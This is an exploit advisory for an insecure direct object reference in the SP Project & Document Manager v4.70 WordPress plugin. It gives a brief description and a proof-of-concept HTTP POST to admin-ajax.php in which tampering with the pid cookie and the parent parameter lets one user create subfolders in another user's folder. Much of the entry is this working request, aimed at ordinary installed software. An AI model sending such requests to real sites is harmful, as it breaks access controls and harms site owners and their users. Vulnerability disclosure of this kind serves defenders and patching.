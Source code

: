 # Exploit Title: SP Project & Document Manager v4.70 - Insecure Direct Object Reference(IDOR)
## Date: 2/20/2024
## Vendor Homepage: https://cn.wordpress.org/plugins/sp-client-document-manager/
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SP Project & Document Manager
## Version: v4.70
## Exploit Description:
## SP Project & Document Manager v4.70 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add sub folder in folder that is assigned to other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /wp-admin/admin-ajax.php HTTP/1.1
...
Cookie: ...; pid=2(CHANGE HERE)

action=cdm_save_category&name=folder22&uid=3&parent=2(CHANGE HERE)
```
